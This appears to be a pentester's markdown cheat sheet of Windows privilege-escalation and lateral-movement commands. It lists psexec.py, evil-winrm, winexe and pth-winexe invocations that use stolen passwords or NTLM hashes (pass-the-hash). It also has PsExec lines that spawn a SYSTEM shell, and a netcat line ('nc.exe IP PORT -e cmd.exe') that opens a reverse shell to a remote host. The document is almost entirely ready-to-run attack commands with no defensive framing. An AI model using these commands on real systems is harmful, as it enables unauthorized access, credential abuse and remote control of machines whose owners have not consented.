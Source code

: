 # privesc_tools

## check if win-logon-creds are working

### psexec.py

```bash
$ python3 /opt/impacket/examples/psexec.py USER:'PASS'@$IP
```

### evil-winrm

```bash
# only USER, no DOMAIN needed
$ evil-winrm -i IP -u <USER> [-H NT-HASH | -p PASS]
```

### winexe

```bash
$ winexe -U 'DOMAIN/USER%PASS' //IP cmd.exe
```

### pth-winexe

```bash
$ pth-winexe -U 'DOMAIN/USER%HASH' //IP cmd.exe
# [OR]
$ pth-winexe [--system] -U 'administrator%NTLM:HASH' //IP cmd.exe
# --system needs local admin hash
```

## PsExec.exe

```bash
PS> .\PsExec64.exe -accepteula -i -s <shell.exe>
# i: Run process interactively
# s: Run remote process in the System account.

> PSExec64.exe -i -u "nt authority\local service" <shell.exe>
# u: Run process as user-account <>

# Run executable with a different user:pass
PS> .\PsExec.exe -accepteula -u <user> -p <pass> nc.exe IP PORT -e cmd.exe
```
